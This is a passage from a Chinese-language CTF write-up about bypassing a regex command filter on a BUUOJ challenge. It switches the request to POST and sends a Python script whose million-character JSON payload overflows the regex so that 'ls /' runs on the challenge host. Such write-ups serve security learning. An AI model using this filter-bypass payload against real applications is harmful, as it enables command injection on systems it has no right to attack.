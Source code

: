 ![2-1.png](2-1.png)

接下来尝试 `{"cmd":"ls /"}` 就遇到了问题, `/` 被过滤了, 这里的正则过滤比较严格, 到这里没有头绪了, 看了下 wp, 这里用到的是正则绕过:

由于源码中使用的是 `REQUEST` 方式接收参数, 这里可以直接改包成 `POST` 方法:

![2-2.png](2-2.png)

可以看到依然是成功执行的, 接下来构造一个超级大的 payload 让正则溢出:

> GET 方法存在长度限制, 因此这里用 POST;

```python
import requests
payload = '{"cmd":"ls /", "abc":"'+'a'*1000000+'"}'
res = requests.post("http://80b73b67-e6fd-4b1f-8f9a-a8c035b665f4.node5.buuoj.cn:81/",data = {"cmd":payload})
print(res.text)
```
